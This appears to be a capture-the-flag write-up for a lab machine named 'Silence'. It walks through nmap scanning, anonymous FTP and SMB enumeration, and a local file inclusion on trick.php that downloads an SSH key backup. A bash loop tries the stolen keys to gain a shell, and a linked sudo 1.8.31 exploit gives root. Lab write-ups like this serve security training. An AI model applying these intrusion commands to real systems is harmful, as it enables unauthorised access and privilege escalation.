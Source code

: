 # **Silence**

***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/97b510aa-62b6-452a-870d-54a1b724d1c3)

## **Difficulty = Medium**
***

Running our nmap scan we have this -:


```bash
# Nmap 7.94 scan initiated Mon Nov 20 21:00:15 2023 as: nmap -sCV -p21,80,139,445,1055 -T4 -oN nmap.txt --min-rate=1000 -v 10.150.150.55
Nmap scan report for 10.150.150.55
Host is up (0.18s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.66.66.34
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              13 Jun 12  2020 test
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
1055/tcp open  ssh         OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| nbstat: NetBIOS name: UBUNTU, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   UBUNTU<00>           Flags: <unique><active>
|   UBUNTU<03>           Flags: <unique><active>
|   UBUNTU<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-11-20T20:33:58
|_  start_date: N/A
|_clock-skew: 33m23s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 20 21:00:40 2023 -- 1 IP address (1 host up) scanned in 24.46 seconds
```



We truly do have anonymous access to the `FTP` protocol



![](https://i.imgur.com/dmWBMK7.png)


Enumerating this service we only have one file called `test`



![](https://i.imgur.com/HFJvuU1.png)




Concatenating the `test` file we have this message 😂


![](https://i.imgur.com/Y45xb3V.png)



Enumerating the protocol `SMB` we have 2 shares


![](https://i.imgur.com/rUtXEKe.png)



We don't have read access to the `IPC$` share, neither can we connect to the `print$` share


![](https://i.imgur.com/0QFbcR5.png)


Navigating to the `HTTP` protocol we have this default apache2 web page


![](https://i.imgur.com/CsjvOLR.png)


Viewing-page source doesn't  have any useful information so i decided to run a directory bruteforce using the tool `dirsearch`


![](https://i.imgur.com/OnWzgIw.png)

Navigating to `/info.php` we have this PHP info page which leads to nothing


![](https://i.imgur.com/x5FkFpi.png)



Navigating to `/index.php` gives us this file search site


![](https://i.imgur.com/R4Pef0L.png)



Fuzzing users with `enum4linux` also gave us this


![](https://i.imgur.com/T6YQeOV.png)


Enumerated all along and found out that we need to test out various parameter on the `/index.php` page, finally `?path=/` worked


![](https://i.imgur.com/ZeYboUl.png)


One thing i noticed is that all users `/home/users/.ssh` directory has a listing like `/var/www/html` and most of the files we found when doing directory bruteforce where here


![](https://i.imgur.com/WRJpaAm.png)


Navigating to `/var/www/html` we now have all files and directory we did not find using `dirsearch` here


![](https://i.imgur.com/oNtt3J8.png)



Navigating to `/trick.php?page=LFI_PAYLOAD`, we where able to get `LFI`

![](https://i.imgur.com/rmyd3uq.png)

So 2 parameters are valid which are `path` and `page`, Navigating back to our `/home` directory i found a backup file on user **sally's** home directory


![](https://i.imgur.com/BXfIG4C.png)



We can then go ahead and download the file using wget on `/trick.php` then decompress it

```bash
wget http://10.150.150.55/trick.php?page=/home/sally/backup/SSHArchiveBackup.tar.gz
```


![](https://i.imgur.com/9AE17Px.png)


Navigating to the `private` folder we decompressed, we have this huge list of `id_rsa` files


![](https://i.imgur.com/RTvvDJW.png)


Well we can use a **for loop** in bash to make connections through all of this `id_rsa` files, and then when it finds one, it logs in automatically


```bash
$ chmod 600 id_rsa*
$ for key in ./id_rsa*; do ssh -o BatchMode=yes -i "$key" sally@10.150.150.55 -p 1055 || true; done
```

We got shell as user `sally` after all, 70th attempt 🥱

```bash
 $ ssh -i id_rsa70 sally@10.150.150.55 -p 1055
```


![](https://i.imgur.com/HjnHTNl.png)


> In this command, the `-o BatchMode=yes` option tells `ssh` to operate in batch mode, meaning it won't prompt for passwords or passphrases. The `|| true` at the end ensures that the loop continues even if the `ssh` command fails (for example, if the key is not valid). It prevents the loop from stopping prematurely due to a failed `ssh` command.

## **Privilege Escalation**

Checking the version of `sudo`, we have an outdated sudo version vulnerable to 


![](https://i.imgur.com/gfQADE7.png)


We can get an exploit from [here](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit/tree/main) and transfer it to user **sally's** home folder since `/tmp` does not allow us to execute binaries


![](https://i.imgur.com/MEiDwAz.png)



Run the following command to get user **root**

```bash
$ make
$ ./exploit
```


![](https://i.imgur.com/suLM00m.png)


## **Things i Learnt**

- Always try out different parameters on URL if nothing shows up on enumeration
- Look deeper, it is not always about "**lateral movement**" (I thought we would switch to users since we have multiple users, but it turned out the other way around 😂)


That will be all for today, Have a nice week 👨‍💻



[](https://i.pinimg.com/originals/79/7f/34/797f347cc1b437839cd21b44aa6fde96.gif)
